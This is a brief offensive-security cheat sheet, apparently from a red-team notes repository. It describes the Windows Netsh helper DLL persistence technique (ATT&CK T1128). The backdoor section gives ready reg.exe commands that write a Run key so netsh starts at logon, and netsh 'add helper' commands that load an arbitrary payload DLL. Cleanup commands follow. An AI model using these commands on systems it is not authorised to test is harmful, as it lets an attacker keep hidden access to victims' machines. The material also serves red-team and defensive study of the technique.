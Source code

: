 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - maintaining-access
  - persistence
  - living-off-the-land
  - T1128
  - windows
---
```

# Netsh

## Backdoor

```
C:\> reg.exe add "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v "Firewall Rules Persist" /t REG_SZ /d "C:\Windows\System32\netsh" /f

C:\> netsh.exe add helper C:\path\to\payload.dll
```

Interactive prompt.

```
C:\> netsh.exe

netsh> add helper C:\path\to\payload.dll
```

## Cleanup

To cleanup the backdoor just specify the path to DLL payload.

```
C:\> netsh.exe delete helper C:\path\to\payload.dll
```

This can be done with an interactive prompt.

```
C:\> netsh.exe

netsh> delete helper C:\path\to\payload.dll
```

Delete the registry entry.

```
C:\> reg.exe delete "HKLM\SOFTWARE\Microsoft\NetSh" /v payload /f

C:\> reg.exe delete "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v "Firewall Rules Persist" /t REG_SZ /d "C:\Windows\System32\netsh" /f
```

---
## References

### Persistence Info

- [Persistence Info: `netsh.exe` extensions ](https://persistence-info.github.io/Data/netsh.html)

### Red Team Notes

- [Red Team Notes: NetSh Helper DLL](https://www.ired.team/offensive-security/persistence/t1128-netsh-helper-dll)